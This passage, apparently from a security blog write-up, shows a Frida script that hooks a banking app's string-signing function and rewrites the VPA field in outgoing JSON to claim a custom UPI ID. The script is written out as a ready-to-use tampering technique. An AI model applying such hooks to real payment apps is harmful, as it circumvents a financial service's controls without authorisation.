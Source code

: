 Now that we can see the traffic, I wanted to check the JSON sent just before clicking create UPI ID. There is a VPA attribute which we can modify to our desired one. There are many ways to do this but I just hard coded the VPA in my Frida script. Unfortunately no screenshot for this. During my testing a UPI ID of at least 5 characters was required. All you need to do to get a custom UPI ID is modify the above code to this:

```js
b["b"].implementation = function (key, value) {
	console.log(`com.Discover.Security.b.b secureString ${key}`);

	const json = JSON.parse(value, null, 4);
	if (json.VPA === "upi_id_from_the_list") {
		json.VPA = "YOUR_DESIRED_ID@bankxyz";
		console.log("CHANGED VPA");
		value = JSON.stringify(json);
	}

	console.log(JSON.stringify(json, null, 4));

	let result = this["b"](key, value);
	return result;
};
```

And voila!
